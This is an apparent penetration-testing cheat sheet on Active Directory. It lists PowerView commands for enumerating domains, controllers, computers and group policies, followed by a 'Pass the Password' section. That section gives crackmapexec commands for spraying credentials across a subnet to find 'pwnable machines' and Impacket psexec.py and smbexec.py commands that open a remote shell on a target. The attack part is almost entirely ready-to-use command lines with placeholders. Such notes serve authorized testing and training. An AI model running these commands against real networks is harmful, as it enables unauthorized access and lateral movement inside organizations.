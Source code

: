 
### POWERVIEW


 > 
 > **<font color=red>Get-NetDomain</font>**</br>
 > Infos about the domain.
 > 
 > **<font color=red>Get-NetDomainController</font>**</br>
 > Info about the Domain Controller.

 > 
 > **<font color=red>Get-NetComputer</font>**</br>
 > Infos about servers and computers in the domain.

 > 
 > **<font color=red>Get-DomainPolicy</font>**</br>
 > Infos about Domain Policy.

 > 
 > **<font color=red>Get-NetGPO</font>**</br>
 > List GPOs.
 > 
 > **<font color=red>Get-NetGPO | select displayname, whenchanged</font>**</br>
 > List policies with when they were changed.

# Pass the Password

---

### IMPACKET-PSEXEC

### Hands On


 > 
 > **<font color=red>crackmapexec smb</font> \[TARGET_NETWORK_ADDRESS\]<font color=red>/</font>\[TARGET_CIDR\] <font color=red>-d</font> \[TARGET_DOMAIN\] <font color=red>-u</font> \[mySamName\] <font color=red>-p</font> \[myUserPassword\]**</br>
 > Pass the Password around the network to find pwnable machines.

![tool-crackmapexec-example.png](../attachments/tool-crackmapexec-example.png)


 > 
 > **<font color=red>python3 /opt/impacket/examples/psexec.py</font> \[TARGET_DOMAIN\]<font color=red>/</font>mySamName<font color=red>:</font>myPassword<font color=red>@</font>\[TARGET_IP\]**</br>
 > Get a shell on the tageted machine (Psexec is the most noisy).

 > 
 > **<font color=red>python3 /opt/impacket/examples/smbexec.py</font> \[TARGET_DOMAIN\]<font color=red>/</font>mySamName<font color=red>:</font>myPassword<font color=red>@</font>\[TARGET_IP\]**</br>
 > Get a shell on the tageted machine.
